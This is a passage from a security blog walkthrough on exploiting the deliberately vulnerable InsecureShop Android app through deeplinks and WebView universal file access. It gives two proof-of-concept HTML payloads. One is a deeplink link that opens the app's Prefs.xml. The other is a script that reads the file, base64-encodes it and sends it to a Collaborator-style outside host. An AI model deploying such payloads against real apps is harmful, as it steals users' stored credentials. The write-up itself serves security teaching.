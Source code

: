 Now we know all the calls to the API _getAllowUniversalAccessFromFileURLs_. This is the API that will help us to exfiltrate the data from the application sandbox.

There are two possible ways to load the URIs and get the data and where we can even exfiltrate the data from the victim’s device. We will look at each of the them in detail.

This can be just a simple poc like where we can set up a html page

```
<html>
  <body data-rsssl=1>
    <h2>
      <a href="insecureshop://com.insecureshop/web?url=file:///data/data/com.insecureshop/shared_prefs/Prefs.xml">Just click here</a>
    </h2>
  </body>
</html>

```

Copy

This when triggered appears as follows:

![](https://8ksec.io/wp-content/uploads/2023/04/deeplink-blog-webview1.png)

And when click will show up the login details of the victim.

![](https://8ksec.io/wp-content/uploads/2023/04/deeplink-blog-scenario-2-5.png)

We can also host an webpage with the malicious html like given below

```
<html>
  <head></head>
  <body data-rsssl=1>
    <script type="text/javascript">
      function exfiltrateFile(filePath, callback) {
        var request = new XMLHttpRequest();
        request.open("GET", "file://" + filePath, true);
        request.onload = function(event) {
          callback(btoa(request.responseText));
        }
        request.onerror = function(event) {
          document.write(event);
          callback(null);
        }
        request.send();
      }
      var filePath = "/data/user/0/com.insecureshop/shared_prefs/Prefs.xml";
      exfiltrateFile(filePath, function(contents) {
            document.write(contents);
            var exfil = new XMLHttpRequest();
            exfil.open("GET", " < https: //burpcolloboratorurl.com?file=>" + contents, true);
              exfil.onload = function(event) {
                document.write(" < /br>[+] File successfully exfiltrated to remote server");
                }
                exfil.onerror = function(event) {
                  document.write(event);
                  callback(null);
                }
                exfil.send();
              });
    </script>
  </body>
</html>

```